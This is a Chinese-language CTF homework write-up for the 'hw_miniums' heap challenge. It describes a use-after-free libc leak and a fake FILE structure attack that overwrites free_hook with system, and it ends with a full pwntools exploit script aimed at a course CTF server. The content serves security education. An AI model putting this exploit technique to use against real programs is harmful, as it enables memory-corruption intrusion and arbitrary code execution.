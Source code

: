# hw_miniums

1. 這題我的想法是先想辦法偽造出 FILE，然後將偽造出來的 FILE 想辦法放進 heap 裡面，來執行任意讀或是任意寫。
2. 所以我先嘗試 leak 出 libc 的 address ，但嘗試了很久只能 leak 出 tcache 的 address，但我想要 leak 出 unsorted bin 那一塊的 fd 因為他會指向 main_arena 。

```python
add_user(0, "aaaaaa")
edit_user(0, 8, "bbbbbb")
add_user(1, "cccccc")
del_user(1)
del_user(0)

show_users()
r.recvuntil(b"[0] ")
print("address :", hex(u64(r.recv(6).ljust(8,b"\x00"))))
```

![截圖 2022-12-15 上午12.47.18.png](hw_miniums%20a2d4da3b8ff94ea3a4f99c7a5ef55862/%25E6%2588%25AA%25E5%259C%2596_2022-12-15_%25E4%25B8%258A%25E5%258D%258812.47.18.png)

![截圖 2022-12-16 上午1.50.53.png](hw_miniums%20a2d4da3b8ff94ea3a4f99c7a5ef55862/%25E6%2588%25AA%25E5%259C%2596_2022-12-16_%25E4%25B8%258A%25E5%258D%25881.50.53.png)

1. 於是我思考了一下，改變了我 heap 堆疊的順序，先找一塊被 free 的 chunk 裡面有 fd 跟 bk，然後重新add user 或 edit user 的時候可以蓋過那個 chunk fd 跟 bk 沒有被洗掉，就會存在裡面，只是蓋過去蓋一個字元就好，不然就會把 fd 跟 bk 蓋過去，類似像下圖這樣，fd 的話因為被我蓋掉後三位，所以 fd 後三位是錯的，bk 就是 指向 main arena。

![Untitled](hw_miniums%20a2d4da3b8ff94ea3a4f99c7a5ef55862/Untitled.png)

1. 我這邊可以選擇想辦法去印出 fd 或是 bk ，我選擇印出 fd ，但遇到一個問題 fd 後三位被我蓋掉，但那邊因為是 RVA 會是固定的 offset ，所以我那邊直接將那個固定的值填上被我蓋掉的地方，一樣可以找到 main_arena + 96 ，有了 main_arena + 96 的位址後，就可以去計算他跟 system、free_hook、_IO_file_jumps 之間的距離，而得到他們的位址，以便做後續的利用。

![截圖 2022-12-16 上午2.09.16.png](hw_miniums%20a2d4da3b8ff94ea3a4f99c7a5ef55862/%25E6%2588%25AA%25E5%259C%2596_2022-12-16_%25E4%25B8%258A%25E5%258D%25882.09.16.png)

```python

add_user(0, "aaaaaaaaaa")
edit_user(0, 16, "bbbbbb")
add_user(1, "cccccc")
del_user(0)

add_user(2, "a")
add_user(3, "a")
edit_user(3, 8, "b")
show_users()

r.recvuntil(b"[3] a\n")
b = "be0"
r.recvuntil(b"data: ")
main_arena = int(str(hex(u64(r.recv(6)+b"\00\00"))[0:11]+b),16)
free_hook = main_arena + 0x2268
system = main_arena - 0x19a950
_IO_file_jumps = main_arena -  0x3740

print("main_arena_96", hex(main_arena))
print("free_hook", hex(free_hook))
print("system", hex(system))
print("_IO_file_jumps", hex(_IO_file_jumps))

```

1. 接下來要想辦法構造一個 fake 的 FILE 去執行 AAW 控制 fread 的流程，因為這邊沒有 overflow 所以要用別的方法把這個 fake 的 FILE 放進 heap ，所以我想辦法用 UAF ，而我有辦法做到 UAF ，但不知道為什麼我寫入的 FILE 都會有問題

如果我放入的 payload 是 edit_user(4, "464","A"*100)，會變成下面這張圖這樣

![截圖 2022-12-16 上午4.56.36.png](hw_miniums%20a2d4da3b8ff94ea3a4f99c7a5ef55862/%25E6%2588%25AA%25E5%259C%2596_2022-12-16_%25E4%25B8%258A%25E5%258D%25884.56.36.png)

但如過我放入的 payload 是 edit_user(4, "464",flat(0xfbad0000))，他會直接變成下面這樣，而不是想要的那種 file結構，而這邊的這個問題我還沒解決，目前只有解到這邊。

![截圖 2022-12-16 上午4.52.36.png](hw_miniums%20a2d4da3b8ff94ea3a4f99c7a5ef55862/%25E6%2588%25AA%25E5%259C%2596_2022-12-16_%25E4%25B8%258A%25E5%258D%25884.52.36.png)

後來我這邊解決了，但由於在壓線前十五分鐘內寫完，所以來不急寫這邊的 writeup，下面直接附上解題腳本，後需有時間會補交 writeup。

```python
from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']
#r = process("./chal")
r = remote("edu-ctf.zoolab.org","10011")
def add_user( index , username):
    r.sendlineafter( b">", b"1" )
    r.sendlineafter( b"index\n>", str(index).encode() )
    r.sendlineafter( b"username\n>", str(username).encode())

def edit_user( index, size, data):
    r.sendlineafter( b">", b"2" )
    r.sendlineafter( b"index\n>", str(index).encode() )
    r.sendlineafter( b"size\n>", str(size).encode() )
    r.send(data)

def del_user( index ):
    r.sendlineafter( b">", b"3" )
    r.sendlineafter( b"index\n>", str(index).encode() )

def show_users():
    r.sendlineafter( b">", b"4" )

add_user(0, "aaaaaaaaaa")
edit_user(0, 16, "bbbbbb")
add_user(1, "aaaaaaaaaa")
del_user(0)

add_user(2, "a")
add_user(3, "a")
edit_user(3, 8, "b")
show_users()

r.recvuntil(b"[3] a\n")
#a = hex(u64(r.recv(6)+b"\00\00"))
b = "be0"
#print("address:", a)

r.recvuntil(b"data: ")
main_arena = int(str(hex(u64(r.recv(6)+b"\00\00"))[0:11]+b),16)

free_hook = main_arena + 0x2268
system = main_arena - 0x19a950
print("main_arena", hex(main_arena))
print("free_hook", hex(free_hook))
print("system", hex(system))

size = 0x30
payload1 = flat(
    0xfbad0000, 0,
    0, 0,
    0, 0,
    0, free_hook,
    free_hook + size, 0,
    0, 0,
    0, 0x7ffff7fbc5c0,
    0x0
)

edit_user(2, 8, "A"*8)
del_user(3)
del_user(2)

edit_user(1, 0x1e0-0x10, payload1)

print("--------fread---------")

show_users()
payload = p64((system), endian='big')
for i in range(0x200//0x8):
    print(payload[::-1])
    r.send(payload[::-1])

#gdb.attach(r)
r.interactive()
```

![Untitled](hw_miniums%20a2d4da3b8ff94ea3a4f99c7a5ef55862/Untitled%201.png)

![截圖 2022-12-16 上午8.53.54.png](hw_miniums%20a2d4da3b8ff94ea3a4f99c7a5ef55862/%25E6%2588%25AA%25E5%259C%2596_2022-12-16_%25E4%25B8%258A%25E5%258D%25888.53.54.png)